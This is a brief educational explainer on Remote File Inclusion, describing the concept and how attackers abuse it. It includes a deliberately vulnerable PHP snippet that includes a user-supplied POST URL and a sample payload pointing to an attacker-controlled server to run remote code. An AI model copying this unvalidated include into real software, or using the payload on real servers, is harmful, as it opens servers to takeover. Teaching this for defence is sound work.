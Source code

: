 # Remote File Inclusion

## Concept

RFI (Remote File Inclusion) vulnerabilities allow attackers to include and execute remote files on the target server by leveraging user-controllable inputs that specify a remote file URL.

## Attack Principle

When an application processes requests involving external file inclusion, if it fails to strictly validate and filter the input URL, an attacker can input a URL pointing to a malicious file on their server. This causes the server to load and execute the code in the remote malicious file.

## Attack Example

Assume a blog platform permits users to specify a custom template URL via a POST request. The code is as follows:

```php
$templateUrl = $_POST['template_url'];
include($templateUrl);
```

If an attacker sets the `template_url` parameter to `http://attacker-controlled-server/malicious-template.php`, the server will fetch and execute the PHP code in the remote malicious file during processing, enabling the attacker to gain control of the server.
